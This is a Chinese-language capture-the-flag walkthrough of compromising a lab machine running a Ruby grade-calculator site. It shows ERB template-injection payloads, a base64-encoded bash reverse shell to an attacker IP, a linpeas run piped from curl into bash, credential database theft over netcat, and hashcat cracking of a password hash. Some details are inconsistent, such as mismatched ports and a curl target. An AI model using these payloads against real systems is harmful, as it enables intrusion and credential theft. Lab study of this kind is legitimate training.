# 信息收集

## Nmap

```
root@kali# nmap --min-rate 10000 -p- -Pn 10.10.11.253 -oA scans/ports
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx
...
```

可以看到开放了22,80端口，22端口的渗透优先级肯定要靠后，先看看80端口，用dirsearch来扫描一下网站目录看看能不能爆出有用信息出来

## 目录FUZZ

```
root@kali# dirsearch -u http://10.10.11.253
...
[13:54:48] Starting: 
[13:55:28] 200 -    4KB - /about
...
```

## Web信息收集

是一个根据权重计算总成绩的网站



Wappalyzer查看网页用的什么编写搭建的



 可以看到网站的一些基本信息，例如使用了WEBrick1.7.0,以及语言是ruby，这就找到了两个比较有用的信息，WEBrick是ruby 中内嵌的 HTTP 服务器程序库，这更加使我们确定了服务器是利用ruby语言搭建的，那么**像ruby、python这样的用高级语言搭建的服务器一般是利用通用模板搭建的**，就会有**可能存在SSTI（Server Side Tamplate Injection）漏洞**，这是一个有可能的突破点。

# 漏洞检测与利用

上文提到可能存在SSTI攻击，于是我们就要去测试一下是否存在，SSTI和SQL注入的原理基本类似，都是通过传参来闭合语句，同时在语句外部来执行恶意代码造成RCE（Remote Code Execute）攻击，所以我们要找到一个能传参的地方，而这个网站是一个网页计算器，我们就可以尝试通过往里输入恶意代码来测试是否存在漏洞，于是我们输入以下信息



尝试可能的Ruby的模板：

[SSTI (Server Side Template Injection) | HackTricks | HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby)





提示malicous input，说明我们有语句触发关键词黑名单了，于是我们使用burp抓包看能不能解决问题



```
aaa
<%=+File.open('/etc/passwd').read+%>
```

- %0A是截断符号，它可以使bash在读取代码时读到这个符号时停止读取这一行的后续代码，取而代之的是接着执行后面的代码

- 在传参中url编码会自动忽略空格要用“+”来代替上述语句
- 将payload使用base64编码来进行嵌套，为了避免后面可能会有一些关键字过滤

## 反弹shell

首先是确定基本payload语句

```
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.88/6666 0>&1
```

于是为了payload顺利执行，也为了避免后面可能会有一些关键字过滤，我们直接将payload使用base64编码来进行嵌套，这也是我们反弹shell的常用手段





这里很奇怪，如果我们直接把payload编码为base64会无法执行，但是如果我们从“-i”这个地方把payload分开来编码再拼在一起就可以，所以我们得到如下payload（base64格式）

```
IyEvYmluL2Jhc2gKYmFzaCAtaSA=PiYgL2Rldi90Y3AvMTAuMTAuMTQuODgvODg2NiAwPiYxIA==
```

这就是最终的payload了，再代入post数据包中

```
category1=aaa%0a<%25=system("echo+IyEvYmluL2Jhc2gKYmFzaCAtaSA=PiYgL2Rldi90Y3AvMTAuMTAuMTQuODgvODg2NiAwPiYxIA==|+base64+-d+|+bash");%25>;&grade1=1&weight1=20&category2=bb&grade2=1&weight2=20&category3=cc&grade3=1&weight3=20&category4=dd&grade4=1&weight4=20&category5=ee&grade5=1&weight5=20
```

然后开启一个终端输入

```
nc -nlvp 8866
```



shell成功反弹！

# 提权

```
find / -perm -u=s -type f 2>/dev/null
```

该命令用来查找在linux系统中拥有suid权限位的文件，SetUID（Set User ID）是一种权限位，它允许一个可执行文件在执行时临时以文件所有者的权限运行，而不是执行者的权限。通过设置SetUID权限位，普通用户可以在执行特权命令（如系统管理员的命令）时获得相应的特权。



好像也没有什么可以利用的，传入**linpeas**看看提权吧，在有linpeas.sh的文件夹下用python开启http服务

> GitHub链接：https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
> 
> LinPEAS 是一个没有任何依赖的脚本，它使用/bin/sh语法，用于搜索在 Linux/Unix*/MacOS 主机上搜索可能的权限提升路径。默认情况下，LinPEAS 不会向磁盘写入任何内容，也不会尝试以任何其他用户身份使用 su 。
> 
> 该脚本工具枚举并搜索主机内部可能的错误配置（已知漏洞、用户、进程和文件权限、特殊文件权限、可读/可写文件、暴力破解其他用户（top1000pwds）、密码…），并用颜色突出显示可能的错误配置。

```
python3 -m http.server 1234 -d ./
```

然后在靶机上访问我们的端口来执行linpeas.sh

```
cd /tmp | curl http://10.10.11.253:1234/linpeas.sh | bash
```



## db文件泄露

这里看到爆出了一个db文件,我们把它下载下来看看,我们利用nc来传输

```
本机:nc -nlvp 1111 > test.db
靶机:nc 10.10.11.253 1111 < pupilpath_credentials.db
```



## Hashcat破解密码

有若干个用户名以及密码，将他们放入john查看是否能够破解



破解失败，可能是加密方式不对，继续查找敏感信息，发现在/var/spool/mail中有一段关于密码的提示



大概意思就是需要用户自己重置密码，重置的格式为{名字_名字的逆序_在(1,1000000000)之间的一个随机数}，尝试使用hashcat的掩码爆破功能破解

```
hashcat -m 1400 -a 3 abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f susan_nasus_?d?d?d?d?d?d?d?d?d
```

其中-a指定破解模式，3为指定掩码破解，后面跟的第一个参数为密文，第二个参数为要爆破的数值



可以看到，爆破出来的密码为：susan_nasus_413759210，使用susan/susan_nasus_413759210登录到主机

```
ssh susan@10.10.11.253
```

```
sudo su root
```

